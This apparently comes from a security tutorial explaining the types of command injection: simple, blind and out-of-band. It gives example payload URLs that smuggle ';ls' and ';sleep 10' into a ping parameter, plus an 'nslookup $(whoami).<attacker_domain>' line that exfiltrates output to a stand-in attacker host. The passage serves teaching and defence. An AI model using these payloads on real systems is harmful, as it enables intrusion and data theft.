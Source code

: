 ## Types of Command Injection

Command Injection can be exploited in several different ways depending on the attacker's goal and the application's behavior. Below are the primary types of Command Injection:

### Simple Command Injection

*   This is the most straightforward type of Command Injection, where the attacker injects commands using shell metacharacters to execute additional commands sequentially.

    #### How Simple Command Injection Works

    1. The attacker finds an input field that is passed directly to a system command.
    2. They inject a command using a metacharacter like `;`.
    3. The system executes both the legitimate and injected commands.

    **Example:**

    ```
    http://<target_domain>/ping?ip=127.0.0.1;ls
    ```

    This executes the ping command followed by the `ls` command, listing directory contents.

### Blind Command Injection

*   In blind command injection, the output of the injected commands is not returned directly to the attacker. Instead, the attacker has to rely on indirect indicators, such as timing delays or network interactions, to infer the success of the attack.

    #### How Blind Command Injection Works

    1. The attacker injects commands that produce observable side effects.
    2. Instead of visible output, they observe delays, DNS requests, or other indicators.

    **Example:**

    ```
    http://<target_domain>/ping?ip=127.0.0.1;sleep 10
    ```

    If the application takes 10 seconds to respond, the attacker knows the command was executed.

### Out-of-Band (OOB) Command Injection

*   This variant involves exploiting secondary communication channels (such as DNS or HTTP requests) to retrieve command output or exfiltrate data from the server.

    #### How OOB Command Injection Works

    1. The attacker injects a command that sends data to an external server they control.
    2. Data is retrieved via secondary channels like DNS or HTTP requests.

    **Example:**

    ```
    http://<target_domain>/ping?ip=127.0.0.1; nslookup $(whoami).<attacker_domain>
    ```
